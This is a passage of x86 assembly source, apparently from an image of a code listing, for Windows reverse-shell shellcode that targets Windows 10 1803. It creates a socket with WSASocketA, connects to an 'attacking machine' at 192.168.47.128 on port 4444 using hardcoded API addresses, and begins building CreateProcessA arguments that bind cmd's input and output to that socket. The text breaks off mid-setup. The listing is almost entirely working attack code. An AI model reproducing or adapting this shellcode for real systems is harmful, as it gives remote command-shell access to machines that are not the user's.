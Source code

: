 ```nasm
global _start

section .text

_start:

	; Create the socket with WSASocketA() 
	
	xor eax, eax
	push eax		; Flags - 0
	push eax		; Group - 0
	push eax		; pWSAprotocol - NULL
	xor ebx, ebx		
	mov bl, 6		
	push ebx		; Protocol - IPPROTO_TCP = 6 		
	inc eax		
	push eax		; Type - SOCK_STREAM = 1
	inc eax
	push eax		; Family - AF_INET = 2
	mov ebx, 0x754e9730	; WSASocketA - Win10 1803
	xor eax, eax
	call ebx
	xchg eax, esi		; save socket into ESI

	; connect() to attacking machine

	push 0x802fa8c0		; 192.168.47.128
	push word 0x5c11	; port 4444
	xor ebx, ebx		
	add bl, 2
	push word bx		
	mov edx, esp		; pointer for SockAddr
	push byte 16		; AddrLen - 16
	push edx		; pSockAddr
	push esi		; saved socket
	mov ebx, 0x754e5ee0	; connect - Win10 1803
	call ebx

	; CreateProcessA()

	mov edx, 0x646d6363	; cmdd
	shr edx, 8		; cmd
	push edx
	mov ecx, esp		; pointer to "cmd"

	xor edx, edx
	sub esp, 16
	mov ebx, esp		; pointer for ProcessInfo (points to garbage)

	push esi		; hStdError - saved socket
	push esi		; hStdOutput - saved socket
	push esi		; hStdInput -saved socket
	push edx		; pReserved2 - NULL	
	push edx		; cbReserved2 -NULL
	xor eax, eax
	inc eax
	rol eax, 8			
	push eax		; dwFlags - STARTF_USESTDHANDLES 0x00000100
	push edx		; dwFillAttribute - NULL
	push edx		; dwYCountChars - NULL
	push edx		; dwXCountChars - NULL
	push edx		; dwYSize - NULL
	push edx		; dwXSize - NULL
```